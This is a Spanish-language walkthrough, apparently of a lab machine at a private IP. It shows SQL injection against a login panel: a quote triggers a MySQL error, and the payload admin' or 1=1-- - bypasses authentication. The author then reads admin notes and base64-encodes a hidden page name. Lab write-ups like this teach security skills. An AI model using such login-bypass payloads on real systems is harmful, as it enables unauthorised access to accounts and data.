 viendo que no tenemos credenciales probraremos el panel para determinar si es vulnerable a **SQLInjection**, Asi que colamos un comilla en el apartado del usaurio para var como es que reacciona
```bash
usernamne: admin'
password: admin
```

En la respuesta del servidor vemos lo siguiente:
```sql
**Fatal error**: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1 in /var/www/html/login.php:101 Stack trace: #0 /var/www/html/login.php(101): mysqli_query() #1 {main} thrown in **/var/www/html/login.php** on line **101**
```

Ahora sabemos que por detras corre **MySQL**, Asi que podemos intentar loguearnos sin proporcionar contrasena de la sigueinte manera:
```bash
username: admin' or 1=1-- -
password: cualquiercontrasena
```

Logramos ganar acceso al panel del administrador
```bash
http://192.168.100.35/admin.php
```

Ingresamondo vemos lo siguiente:
```bash
# Bienvenido administrador

## Día 1
Ya he conseguido que solo yo pueda acceder a este sitio, cada vez soy mejor. Para ser mi primer proyecto no está nada mal, dentro de poco tendré que pedir un aumento de sueldo.
Creo que lo mejor es que use esta pagina para apuntar todo lo que hay que hacer.
Aún tengo que terminar de dar estilo a la pagina de index, añadir el contenido de las noticias y crear una página dedicada a los usuarios.

## Día 2
Esto es demasiado chapucero para un programador de mi nivel, voy a crear una [to-do-list](http://192.168.100.35/todo-list.php) para ir cubriendo todos mis súper objetivos.
```

Vemos que existe una pagina **todoList** a la cual accedemos para ver lo siguiente:
```bash
# Lista de tareas

Pedir aumento de salario al jefe (soy demasiado bueno para cobrar esta miseria).  
 Reservar billetes verano.  
 He creado una nueva página para poder leer los ficheros internos del servidor, cada día soy un mejor programador. Además he codificado su nombre en base64, así nadie podrá dar con ella (lee_archivos).  
 Llevar al gato al veterinario, ese saco de pulgas se está comiendo la mitad de mi sueldo...
```

Ahora tenemos una pista del nombre: **( leer_archivos )** asi que procedemos a codificarlo en **base64**
```bash
echo "lee_archivos" | base64
bGVlX2FyY2hpdm9zCg==
```
